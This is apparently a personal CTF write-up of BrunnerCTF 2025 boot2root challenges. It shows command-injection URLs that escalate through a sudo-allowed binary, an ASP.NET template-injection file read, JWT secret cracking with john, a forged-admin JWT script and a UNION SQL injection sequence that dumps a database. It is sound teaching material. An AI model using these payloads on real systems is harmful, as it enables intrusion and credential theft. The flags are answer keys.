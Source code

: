 ```yaml
---
layout: post
title:  "BrunnerCTF 2025 Boot2Root Challenges"
date:   2025-08-24 22:43:10 -0400
author: robo.uzi
tags: [CTF, boot2root]
permalink: /brunnerctf-2025-boot2root/
---
```

* TOC
{:toc}

## Caffeine (User)
**Category:** Boot2root

**Difficulty:** Beginner  
**Author:** Quack

This new coffee shop recently opened and you've been waiting too long for your daily caffeine _injection_! Can you find a way to see a little more than just your order status?

> Boot2root challenges are about privilege escalation, normally from a low-privilege user to administrator, or "root". The initial access is often from a web application and typically involve getting a reverse shell or some other remote code execution (RCE) on a server. From there, the point is to get root access on the system. These challenges are split into two parts: user and root. They can only be solved in order.

_The user flag is in a file called `user.txt`._
Note: The series continues in `Caffeine (Root)`.

I visit the site and see it is for placing coffee orders and checking the order status. You can make a POST request when ordering, and a GET request to check order status. 

After some testing I try this: `https://caffeine-user-cdb336a4ada8363d.challs.brunnerne.xyz/?order_id=135|id`. In the output I see `uid=33(www-data) gid=33(www-data) groups=33(www-data)`. Good we have RCE. 

Visit `https://caffeine-user-cdb336a4ada8363d.challs.brunnerne.xyz/?order_id=135|cat%20user.txt` and get the flag `brunner{C0Ff33_w1Th_4_51d3_0F_c0MM4nD_1nj3Ct10n!}`.

___

## Caffeine (Root)
**Category:** Boot2root

**Difficulty:** Beginner  
**Author:** Quack
{% raw %}
Now that you have access to their system, is there any way you can escalate your privileges and read the final flag?

_The root flag is located in `/root/root.txt`_.

I run `ls -la` and see there is a hint. I run `cat hint.txt` and see: Are there any files you *sudo'ent* (shouldn't) be able to run as a normal user?

Search for suids with `find / -perm /u=s -type f 2>/dev/null`. 

`https://caffeine-user-cdb336a4ada8363d.challs.brunnerne.xyz/?order_id=127|sudo -l` shows:
```
### Order Status for #127|sudo -l

Matching Defaults entries for www-data on ctf-caffeine-user-cdb336a4ada8363d-cb5d99db8-9pght:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ctf-caffeine-user-cdb336a4ada8363d-cb5d99db8-9pght:
    (ALL) NOPASSWD: /usr/local/bin/brew
```

Visit `https://caffeine-user-cdb336a4ada8363d.challs.brunnerne.xyz/?order_id=127|sudo%20/usr/local/bin/brew%20/root/root.txt` and get the flag:
```
### Order Status for #127|sudo /usr/local/bin/brew /root/root.txt

   ( (
    ) )
   ( (
  .-'--.
  |◉.◉|  
  |    |  
  '~~~~'  
   ROOT PRIVILEGES DETECTED
   JavaJack's *Special Reserve* Brew

  Brewing your file reading...
═══════════════════════════════════════════════
brunner{5uD0_pR1V1L3g35_T00_h0t_F0r_J4v4_J4CK!}
═══════════════════════════════════════════════

    ) )
   ( (
  .-'-.
  |‼.‼|  
  |   |  
  '~~~'  
   Root Brew Successful!

No order found with ID #127|sudo /usr/local/bin/brew /root/root.txt
```
{% endraw %}
___

## Dotwhat..? (User)
**Category:** Boot2Root

**Difficulty:** Easy-Medium  
**Author:** Quack

Tell me your favourite recipe! The user flag is in a file called `user.txt`.

The site allows you to create a new recipe with a POST request. There are 3 fields. Title, Ingredients, and Instructions. You can make a GET request to view saved recipes. In wappalyzer I see it uses ASP.NET. Looks like serverside template injection.

I test the payload `@System.IO.File.ReadAllText("../user.txt")` in the instructions field and recieve the flag: 
`brunner{m0R3_l1K3_r3c1P3_1NJ3ct1On!}`.

___

## Tickets App (User)
**Category:** Boot2Root
**Difficulty:** Medium  
**Author:** ha1fdan (+ Nissen)

Man, I really wanted to see _Brunner & Bass_, but the tickets app says they're sold out! Maybe there's another way to get myself a ticket...

_The user flag is in a file called `user.txt`._

This one is an honorable mention. I did not get the flag because I didnt check `robots.txt`. I open the site and see I have a json web token (JWT) after I create an account and login. I put it into a file and crack the secret:
```shell
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt jwt.txt  
Using default input encoding: UTF-8  
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])  
Will run 2 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
secretkey        (?)        
1g 0:00:00:00 DONE (2025-08-24 02:41) 2.222g/s 2903Kp/s 2903Kc/s 2903KC/s service0..seanmclean01  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed.
```
I get the secret: `secretkey`.

When I'm logged in all I can see is my username and `Admin: False`. I create a python script to generate a jwt that allows me to become admin:
```python
import jwt

payload = {
    "user": "admin",
    "admin": True
}

secret = "secretkey"
token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```
Once I am admin I can search for users on the dashboard!

For example searching for `admin` makes a GET request to `https://tickets-app-user-0a24104bb2f7cad1.challs.brunnerne.xyz/api/search?name=admin`. 

Visiting that link I see: `[{"id":1,"is_admin":1,"password":"00ea23da62544a6e7f699a3a24e87044","username":"admin"}]`.

I visit my own profile and grab the password hash. Inputting it to `https://crackstation.net/` proves it is an md5 hash as I chose a simple password and it cracked it.

In the search bar `' OR 1=1 --` returns all users (me and admin). 

`' UNION SELECT NULL,NULL,NULL,NULL --` tells me there are 4 columns.

`' UNION SELECT name,NULL,NULL,NULL FROM sqlite_master WHERE type='table' --` confirms sqlite. 

`' UNION SELECT NULL,name,NULL,NULL FROM sqlite_master WHERE type='table' --`:
```
|Username|Admin Privileges|
|---|---|
|settings|No|
|sqlite_sequence|No|
|users|No|
|admin|Yes|
|uzi|No|
```

`' UNION SELECT NULL,sql,NULL,NULL FROM sqlite_master --`:
```
|Username|Admin Privileges|
|---|---|
||No|
|CREATE TABLE settings ( id INTEGER PRIMARY KEY AUTOINCREMENT, key TEXT NOT NULL UNIQUE, value TEXT )|No|
|CREATE TABLE sqlite_sequence(name,seq)|No|
|CREATE TABLE users ( id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT NOT NULL UNIQUE, password TEXT NOT NULL, is_admin BOOLEAN NOT NULL DEFAULT FALSE )|No|
|admin|Yes|
|uzi|No|
```

`' UNION SELECT NULL,value,NULL,NULL FROM settings --`:
```
|Username|Admin Privileges|
|---|---|
|BrunnerCTF|No|
|Tickets App|No|
|false|No|
|jmHdkzfav1nr4XKvrVWPyg1XHeLtlTX0|No|
|admin|Yes|
|uzi|No|
```

`' UNION SELECT NULL,key,NULL,NULL FROM settings -- `:
```
|Username|Admin Privileges|
|---|---|
|api_key|No|
|ctf_name|No|
|development_mode|No|
|site_name|No|
|admin|Yes|
|uzi|No|
```

`api_key = jmHdkzfav1nr4XKvrVWPyg1XHeLtlTX0`

___
